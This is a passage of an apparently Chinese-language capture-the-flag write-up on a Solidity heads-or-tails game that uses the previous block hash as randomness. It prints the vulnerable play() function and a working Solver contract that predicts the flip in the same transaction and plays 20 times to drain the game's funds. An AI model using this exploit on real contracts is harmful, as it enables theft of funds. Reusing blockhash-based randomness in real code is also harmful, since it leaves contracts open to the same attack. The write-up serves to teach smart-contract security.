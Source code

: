 本游戏主体是猜正反，猜测打包我们交易的区块的前一个区块的最后一位是 0 还是 1，猜错了赌注全部交给游戏合约，猜对了拿走自己赌注的一半的奖励。该游戏考查简单的智能合约创建。

```
function play(bool _heads) external payable ctf{
    require(msg.value == cost, "Incorrect Transaction Value");
    require(gameFunds >= cost.div(2), "Insufficient Funds in Game Contract");
    bytes32 entropy = blockhash(block.number-1);
    bytes1 coinFlip = entropy[0] & 1;
    if ((coinFlip == 1 && _heads) || (coinFlip == 0 && !_heads)) {
        //win
        gameFunds = gameFunds.sub(msg.value.div(2));
        msg.sender.transfer(msg.value.mul(3).div(2));
    }
    else {
        //loser
        gameFunds = gameFunds.add(msg.value);
    }
}
```

我们创建一个如下Solver合约即可，因为我们调用我们Solver合约的交易和我们合约调用游戏合约的交易是被打包再一起的，所以他们肯定能读到相同的前一个区块。因此我们通过游戏合约授权我们的Solver之后，即可每次用 0.1 ethers 玩，总共玩 20 次，从而拿回游戏合约中的 1 ethers。

```
contract HeadsOrTailsSolver {
    using SafeMath for uint256;
    address public owner;
    address public target;
    constructor(address t) public payable {
        owner = msg.sender;
        target = t;
    }
    function withdraw() external {
        owner.transfer(this.balance);
    }
    function() public payable{}
    
    function solve() external payable {
        bytes32 entropy = blockhash(block.number-1);
        bytes1 coinFlip = entropy[0] & 1;
        if (coinFlip == 1) {
            for (int i = 0; i < 20; i++) {
                I2(target).play.value(1e17)(true);
            }
        } else {
            for (int j = 0; j < 20; j++) {
                I2(target).play.value(1e17)(false);
            }
        }
    }
}

interface I2 {
    function play(bool _heads) external payable;
}
```
